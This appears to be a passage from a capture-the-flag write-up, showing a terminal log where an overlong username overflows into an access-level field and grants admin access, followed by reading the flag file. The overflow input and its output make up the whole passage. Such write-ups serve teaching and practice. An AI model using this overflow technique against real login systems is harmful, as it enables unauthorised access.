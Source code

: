 ``` bash
                                                                                                   
Please login to continue...                                                                        
                                                                                                   
                                                                                                   
Username (max 15 characters): aaaabbbbccccdddd                                                     
Password (max 31 characters): a                                                                    
Your access level is: 0x00000020                                                                   
Admin access granted!                                                                              
The flag is in "flag.txt".                                                                         
$ cat flag.txt                                                                                     
8b7ea70220f19ab662750a8710a552c4                                                                   
```
Note: username was ```"aaaabbbbccccdddd "``` (with a space at the end)
